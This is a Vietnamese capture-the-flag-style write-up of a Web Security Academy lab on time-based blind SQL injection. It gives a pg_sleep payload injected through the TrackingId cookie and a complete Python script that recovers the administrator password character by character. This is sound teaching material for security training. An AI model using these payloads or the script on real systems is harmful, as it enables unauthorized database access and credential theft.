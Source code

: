 Vậy chúng ta có thể trích xuất thông tin dựa vào thời gian phản hồi của server.

Tiếp theo, sử dụng payload `' || (SELECT CASE WHEN (username='administrator' AND LENGTH(password)=§1§) THEN pg_sleep(2) ELSE pg_sleep(0) END FROM users)--` để thực hiện brute-force độ dài của password sử dụng Burp Intruder.

Ở payload trên, nếu người dùng là `administrator` và `password` của người dùng này đúng bằng một số nào đó thì chúng ta sẽ nhận về response sau khoảng 2 giây.

![image](images/lab-15/lab-15-2.png)

Sau khi chạy Intruder, chúng ta xác định được độ dài của password là 20:

![image](images/lab-15/lab-15-3.png)

Từ độ dài của password, chúng ta có thể viết script Python sau để tìm được chính xác password.

```python
import requests
import string

url = "https://0a7600f20468356580e6ccf4002e00d3.web-security-academy.net/"
charset = string.ascii_lowercase + string.digits
password = ""

for i in range(1, 21):
    for j in charset:
        cookie = {"TrackingId": f"' || (SELECT CASE WHEN (username='administrator' AND SUBSTRING(password, {i}, 1)='{j}') THEN pg_sleep(2) ELSE pg_sleep(0) END FROM users)--"}
        r = requests.get(url, cookies=cookie)

        if r.elapsed.total_seconds() > 2:
            password += j
            break

```